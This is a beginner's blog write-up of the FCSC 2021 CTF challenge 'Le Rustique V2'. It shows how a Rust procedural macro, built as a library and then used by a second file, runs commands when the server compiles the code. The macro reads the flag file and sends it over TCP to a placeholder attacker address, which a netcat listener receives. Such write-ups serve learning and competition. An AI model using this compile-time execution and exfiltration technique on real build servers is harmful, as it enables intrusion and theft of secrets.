 ```yaml
---
title: "FCSC - Le Rustique V2"
date: 2021-05-03T18:29:31+02:00
draft: false
---
```


Hey, so I am a beginner in cyber security, but I participated to the [FCSC 2021](https://france-cybersecurity-challenge.fr/).

I love Rust, and this CTF greeted me with a challenge in `misc` category around Rust, giving 500 points (the biggest score for a challenge :D).

So, let's see how I pwned it!

This challenge is actually a website, which, given a program, tries to compile it in a directory related to your session cookie and never executes it. We only know if the compilation succeeded and don't have access to the errors log. The most obvious solution would be to use the `include_*` macros to read the flag, maybe list directories, etc etc, and abuse the strict rust compiler to read the result. You may refer to previous write-ups (by others) about Le Rustique from the FCSC 2020. The problems are, these `include_*` macros are disabled and we don't know the path to the file.

We thus have to figure out another way, and keep in mind the power of macros.

Here are the most important informations (given in the website's FAQ):

> We are confident leaking the compilation command used.
>
> rustc --out-dir=/sessionDir/ -L /sessionDir/ -C opt-level=3 /sessionDir/randomFilename.rs
>
> Note that randomFilename is randomized by the server upon each compilation. sessionDir is a randomly generated folder name based on your session cookie. All the files are cleaned every hour.

First thing to note, the build results are in the same directory which is added to the librairies path.
Can we build a library and include it in another file ?

We need to give a specific or at least predictable name to our build result, and ask the compiler to build it as a library.
That seems impossible since we can't control rustc's parameters, wait...
```rust
#![crate_type = "lib"]
#![crate_name = "mymacro"]
```

Well, problem fixed.
Now we have to figure out how to execute code during build.
The only solution I could think of was using macros, but I didn't know how to read files using them, and without `include_*` macros.
Thanksfully, Rust has a great documentation: https://doc.rust-lang.org/reference/procedural-macros.html .
We can code macros (called procedural macros) in plain Rust, using the standard library, and then execute them from a second file.

To exfiltrate macros' results, the fastest method was to send a TCP packet to a VPS listening with Netcat.
```bash
while :
do
nc -l -p 4242
echo --- WAITING FOR NEXT COMMAND RESULT ---
done
```

You may however note that you could also make a HTTP GET request to services like https://requestcatcher.com/ or use the 'force-failed build' method from write-ups for Le Rustique v1.

Final code :

```rust
// stage1.rs
#![crate_type = "proc-macro"]
#![crate_name = "mymacro"]

use std::process::Command;
use std::net::TcpStream;
use std::io::prelude::*;

extern crate proc_macro;
use proc_macro::TokenStream;

#[proc_macro_attribute]
pub fn hello(_attr: TokenStream, item: TokenStream) -> TokenStream {
    let ls_out = Command::new("cat").arg("/folder_with_a_special_reward/flag_TheFlagIsInThere.txt").output().expect("failed to execute process");

    let mut stream = TcpStream::connect("ADDRESSEIP:4242").unwrap();
    stream.write(&ls_out.stdout).unwrap();

    item
}
```

```rust
// stage2.rs
extern crate mymacro;

use mymacro::hello;

#[hello]
fn main() {}
```

